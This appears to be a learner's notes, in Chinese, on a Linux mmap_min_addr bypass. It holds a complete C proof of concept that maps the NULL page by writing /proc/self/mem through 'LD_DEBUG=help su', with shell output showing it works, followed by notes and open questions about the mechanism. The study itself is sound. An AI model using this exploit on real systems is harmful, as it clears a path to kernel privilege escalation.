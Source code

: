 ## 关键代码

```c
===============================================================
user@deb10:~/stackexpand$ cat nullmap.c 
#include <sys/mman.h>
#include <err.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

int main(void) {
  void *map = mmap((void*)0x10000, 0x1000, PROT_READ|PROT_WRITE,
                   MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
  if (map == MAP_FAILED) err(1, "mmap");
  int fd = open("/proc/self/mem", O_RDWR);
  if (fd == -1) err(1, "open");
  unsigned long addr = (unsigned long)map;
  while (addr != 0) {
    addr -= 0x1000;
    if (lseek(fd, addr, SEEK_SET) == -1) err(1, "lseek");
    char cmd[1000];
    sprintf(cmd, "LD_DEBUG=help su 1>&%d", fd);
    system(cmd);
  }
  system("head -n1 /proc/$PPID/maps");
  printf("data at NULL: 0x%lx\n", *(unsigned long *)0);
}
user@deb10:~/stackexpand$ gcc -o nullmap nullmap.c && ./nullmap 
00000000-00011000 rw-p 00000000 00:00 0 
data at NULL: 0x706f2064696c6156
user@deb10:~/stackexpand$ 
===============================================================
```

## 收获与积累
1. LD_DEBUG=help XXcommand (用作调试很有帮助)
2. 查看mmap_min_addr：
cat /proc/sys/vm/mmap_min_addr
3. 查看SMAP enabled or not：
cat /boot/config-4.15.0-29-generic | grep CONFIG_X86_SMAP


## 理解与思考
1. mmap映射奇怪参数组合（mmap_min_addr, fd=-1, flags=MAP_GROWSDOWN）可以映射成功。
2. 获取/proc/self/mem的句柄X后重定位文件指针，执行命令重定向STDOUT到X句柄，覆盖/proc/self/mem内容。
3. 循环执行2，直到文件指针为0。

思考：
1. 可否通过其他方式写入到/proc/self/mem？而不是调用命令
2. mmap映射的地址有什么要求？
3. 这个漏洞说是用户层绕过权限检查，搞清楚绕过原理。
